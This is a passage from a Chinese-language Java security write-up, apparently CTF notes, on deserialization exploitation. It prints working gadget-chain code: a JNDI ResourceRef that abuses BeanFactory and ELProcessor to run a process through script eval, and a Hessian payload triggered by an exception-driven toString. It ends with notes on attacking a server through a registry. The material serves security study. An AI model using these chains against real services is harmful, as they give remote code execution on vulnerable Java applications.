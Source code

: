 ```java
    }
    public static void main(String[] args) throws Exception {
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(ref);
        Object ctx = newInstance("javax.naming.spi.ContinuationContext",
                new Class[]{CannotProceedException.class, Hashtable.class},
                cpe, new Hashtable<>());
        Method method = Class.forName("javax.naming.spi.ContinuationContext").getDeclaredMethod("getTargetContext");
        method.setAccessible(true);
        method.invoke(ctx);
    }
}
```

### Hessian Exception triggering toString

和Dubbo中的类似，参考[见这](../Deserial/hessian_only_jdk.md)

![image-20230728005709554](E:\MyBook\Java_Zoo\.gitbook\assets\image-20230728005709554.png)

```java
public static void ser(Object evil) throws Exception {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    Hessian2Output output = new Hessian2Output(baos); output.getSerializerFactory().setAllowNonSerializable(true);  //允许反序列化NonSerializable
    baos.write(77);
    output.writeObject(evil);
    output.flushBuffer();

    ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
    Hessian2Input input = new Hessian2Input(bais);
    input.readObject();
}

JSONArray array = new JSONArray();
array.add(ctx);
ser(array);
```

## Server Java Native Deser Vul

flag在服务端，我们只能通过注册中心打服务端

同样服务端设置了一大堆黑名单，会同步注册中心的黑名单
